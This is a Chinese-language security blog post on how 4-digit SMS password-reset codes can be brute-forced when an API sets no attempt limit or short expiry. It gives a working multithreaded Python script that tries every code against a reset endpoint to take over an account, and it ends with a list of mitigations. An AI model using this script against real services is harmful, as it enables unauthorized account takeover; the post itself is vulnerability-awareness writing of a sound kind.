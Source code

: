 ```yaml
---
title: 找回密碼之簡訊驗證碼強度安全問題
author: ZhgChgLi
date: 2021-03-14T15:57:38.256+0000
last_modified_at: 2021-03-14T15:57:38.256+0000
categories: ZRealm Dev.
tags: [ios-app-development,hacker,web-security,password-security,security-token]
description: 使用 Python 展示暴力破解的嚴重性
image:
  path: assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg
render_with_liquid: false
---
```


### 找回密碼之簡訊驗證碼強度安全問題

使用 Python 展示暴力破解的嚴重性


![Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText){:target="_blank"}](/assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg)

Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText){:target="_blank"}
### 前言

本文沒什麼資安技術含量，單純是日前在使用某平台網站時的突發奇想；想說順手測看看安全性，結果發現的問題。

在使用網站、APP 服務的忘記密碼找回功能時；一般會有兩個選項，一是輸入帳號、Email，然後會寄含有 Token 的重設密碼頁面連結到信箱，點擊後打開頁面就能重設密碼，這部分沒什麼問題，除非像 [之前那篇](../142244e5f07a/) 文章所說，設計上有漏洞才會有問題。

另一個找回密碼的方式是輸入綁定的手機號碼（多半用在 APP 服務），然後會寄出簡訊驗證碼到手機，完成驗證碼輸入即可重設密碼；但為了便利性，多半的服務都是使用純數字作為驗證碼，另外也因為在 iOS ≥ 11 之後增加 [Password AutoFill](../948ed34efa09/) 功能，當手機收到驗證碼後鍵盤會自動判讀並跳出提示。


![](/assets/99a6cef90190/1*f7frmgNsLwW1Q9e9QtAt1A.png)


查找 [官方文件](https://developer.apple.com/documentation/security/password_autofill/about_the_password_autofill_workflow){:target="_blank"} ，蘋果並沒有給出驗證碼自動填入的判讀格式規則；但我看幾乎所有能支援自動填入的服務都是使用純數字，推測應該是只能用數字不能使用數字英文夾雜的複雜組合。
### 問題

因數字密碼的組合存在暴力破解的可能性，尤其是 4 位密碼；組合只有 0000~9999，10,000 種組合；使用多個 thread 多台機器就能分組暴力破解。

假設驗證請求需要 0\.1 秒回應，10,000 個組合 = 10,000 次請求
```
破解所需嘗試時間：((10,000 * 0.1) / thread 數) 秒
```

就算不開 thread 也只需要 16 多分種就能嘗試出正確的簡訊驗證碼。
> _除密碼長度、複雜度不足之外，還有個問題是驗證碼未設嘗試上限、有效期限太長這兩個問題。_ 


### 組合

綜合上述，此資安問題常見於 APP 端；因網頁服務多半都會在嘗試錯誤多次後加上圖形驗證碼驗證或在請求重設密碼時需多輸入安全問題，增加發送驗證請求的困難度；另外網頁服務的驗證若沒有前後端分離，變成每次驗證請求都要拿整個網頁，拉長請求回應時間。

APP 端因流程設計及方便使用者，多半會簡化重設密碼流程、有的 APP 甚至是通過手機號碼驗證就能登入；如果在 API 端沒有做防護則會造成資安漏洞。
### 實踐


> ⚠️警告⚠️ 本文僅作展示此安全問題的嚴重性，請勿拿去做壞事。 



#### 嗅探驗證請求 API

萬事都從嗅探開始，這部分可參考之前的文章「 [APP有用HTTPS傳輸，但資料還是被偷了。](../46410aaada00/) 」、「 [使用 Python\+Google Cloud Platform\+Line Bot 自動執行例行瑣事](../70a1409b149a/) 」第一篇文章看原理建議使用第二篇文章的 [Proxyman](https://proxyman.io/){:target="_blank"} 進行嗅探。


![](/assets/99a6cef90190/1*22uVkKdpDXnwEygDa9lwyA.png)


如果是前後端分離的網站服務也能使用 Chrome \-> 檢查 \-> Network \-> 查看在送出驗證碼後發了什麼請求。


![](/assets/99a6cef90190/1*Skm69eJiZKeK4_QUU0wIoQ.png)


**這邊假設得到的檢查驗證碼請求是：**
```
POST https://zhgchg.li/findPWD
```

**Response：**
```
{
   "status":fasle
   "msg":"驗證錯誤"
}
```
#### 撰寫暴力破解 Python 腳本
```python
import random
import requests
import json
import threading

phone = "0911111111"
found = False
def crack(start, end):
    global found
    for code in range(start, end):
        if found:
            break
        
        stringCode = str(code).zfill(4)
        data = {
            "phone" : phone,
            "code": stringCode
        }

        headers = {}
        try:
            request = requests.post('https://zhgchg.li/findPWD', data = data, headers = headers)
            result = json.loads(request.content)
            if result["status"] == True:
                print("Code is:" + stringCode)
                found = True
                break
            else:
                print("Code " + stringCode + " is wrong.")
        except Exception as e:
            print("Code "+ stringCode +" exception error \(" + str(e) + ")")

def main():
    codeGroups = [
        [0,1000],[1000,2000],[2000,3000],[3000,4000],[4000,5000],
        [5000,6000],[6000,7000],[7000,8000],[8000,9000],[9000,10000]
    ]
    for codeGroup in codeGroups:
        t = threading.Thread(target = crack, args = (codeGroup[0],codeGroup[1],))
        t.start()

main()
```

執行腳本後我們得到：


![](/assets/99a6cef90190/1*jGp69g9H1BjLqq6SdIHRBw.png)

```
驗證碼等於：1743
```

將 `1743` 帶入重設密碼更改掉原始密碼或直接登入帳號。


> Bigo\! 



### 解決之道
- 密碼重設增加更多資訊驗證（如：生日、安全問題）
- 增加驗證碼長度（如 Apple 6 碼數字）、增加驗證碼複雜度（如果不影響 AutoFill 功能）
- 驗證碼嘗試錯誤大於 3 次後使其失效，需請使用者重新發送驗證碼
- 驗證碼有效時限縮短
- 驗證碼嘗試錯誤過多次鎖定裝置、增加圖形驗證碼
- APP 多做 SSL Pining、傳輸加解密（防止嗅探）

### 延伸閱讀
- [揭露一個幾年前發現的巧妙網站漏洞](../142244e5f07a/)
- [如何打造一場有趣的工程CTF競賽](../729d7b6817a4/)
- [APP有用HTTPS傳輸，但資料還是被偷了。](../46410aaada00/)
- [使用 Python\+Google Cloud Platform\+Line Bot 自動執行例行瑣事](../70a1409b149a/)



[![Like Z Realm's work](https://button.like.co/images/og/likebutton.png "Like Z Realm's work")](https://button.like.co/zhgchgli){:target="_blank"}


有任何問題及指教歡迎 [與我聯絡](https://www.zhgchg.li/contact){:target="_blank"} 。



_Converted [Medium Post](https://medium.com/zrealm-ios-dev/%E6%89%BE%E5%9B%9E%E5%AF%86%E7%A2%BC%E4%B9%8B%E7%B0%A1%E8%A8%8A%E9%A9%97%E8%AD%89%E7%A2%BC%E5%BC%B7%E5%BA%A6%E5%AE%89%E5%85%A8%E5%95%8F%E9%A1%8C-99a6cef90190){:target="_blank"} by [ZMediumToMarkdown](https://github.com/ZhgChgLi/ZMediumToMarkdown){:target="_blank"}._
